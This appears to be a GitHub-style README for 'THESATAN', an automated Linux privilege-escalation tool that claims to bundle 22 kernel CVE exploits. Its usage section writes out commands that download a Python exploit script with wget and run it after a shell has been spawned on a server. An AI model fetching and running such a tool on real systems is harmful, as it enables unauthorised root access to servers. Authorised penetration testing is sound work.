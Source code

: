 ☣THESATAN - Automation Privilage Escalation for Linux.
> This tool made for testing a Privilage Escalation on server.

- 22 CVE Ready For Testing.
- Available for kernel 3.x.x / 4.x.x only.
- Work with python2.7 / python3+ also gcc installed on the machine.

**Usage:**
- Spawn A Tty Shell In Terminal.
- You must find accessible directory without 'permission denied', then create your own folder.
**Note: ❌Don't run THESATAN in public access or you will destroy yourself!**

**- Python2.7**
`wget https://raw.githubusercontent.com/warmode666/thesatan/main/thesatan.py`
`python thesatan.py`

**- Python3.x**
`wget https://raw.githubusercontent.com/warmode666/thesatan/main/thesatan.py`
`python3 thesatan.py`

***- Wait until THESATAN done.***

[![THESATAN](https://i.ibb.co/8r23mBK/download.png "THESATAN")](https://i.ibb.co/8r23mBK/download.png "THESATAN")

[![SATAN](https://i.ibb.co/q7xcwwt/download-1.png "SATAN")](https://i.ibb.co/q7xcwwt/download-1.png "SATAN")
